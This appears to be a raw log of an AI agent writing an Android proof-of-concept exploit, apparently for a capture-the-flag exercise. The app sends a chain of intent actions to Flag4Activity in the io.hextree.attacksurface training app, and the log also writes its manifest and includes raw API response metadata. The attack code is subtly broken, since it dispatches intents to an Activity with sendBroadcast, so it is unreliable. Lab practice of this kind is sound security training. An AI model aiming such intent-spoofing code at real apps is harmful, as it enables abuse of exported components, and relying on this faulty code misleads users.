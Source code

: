 Function Call: id=None args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: Send PREPARE_ACTION\n        sendAction(PREPARE_ACTION);\n\n        // Step 2: Send BUILD_ACTION\n        sendAction(BUILD_ACTION);\n\n        // Step 3: Send GET_FLAG_ACTION\n        sendAction(GET_FLAG_ACTION);\n\n        // Step 4: Send a final intent to trigger the flag\n        sendAction(""); // Empty action\n\n        Log.i("MaliciousFlag4PoC", "Intents sent");\n        finish(); // Close the activity after sending intents\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n    }\n}\n'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'file_path': 'AndroidManifest_PoC.xml', 'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousflag4poc">\n\n    <application\n        android:allowBackup="true"\n        android:icon="@mipmap/ic_launcher"\n        android:label="@string/app_name"\n        android:roundIcon="@mipmap/ic_launcher_round"\n        android:supportsRtl="true"\n        android:theme="@style/Theme.MyApplication">\n        <activity\n            android:name=".MaliciousFlag4PoC"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n\n</manifest>'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=CitationMetadata(citations=[Citation(end_index=191, license='Apache-2.0', publication_date=None, start_index=45, title=None, uri='https://github.com/crosswalk-project/crosswalk-app-tools'), Citation(end_index=490, license=None, publication_date=None, start_index=219, title=None, uri='https://android.googlesource.com/platform/tools/base/+/9bb80dcd51e8e953590473a469a67b3ec8f2b736%5E2..9bb80dcd51e8e953590473a469a67b3ec8f2b736/'), Citation(end_index=565, license=None, publication_date=None, start_index=367, title=None, uri=None), Citation(end_index=794, license=None, publication_date=None, start_index=585, title=None, uri='https://github.com/osiris-apis/osiris-platform'), Citation(end_index=888, license='Apache-2.0', publication_date=None, start_index=702, title=None, uri='https://github.com/dascandy/evoke')]), finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.004341574492433523, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=227, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=227)], prompt_token_count=15581, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=15581)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=15808, traffic_type=None), automatic_function_calling_history=[], parsed=None)
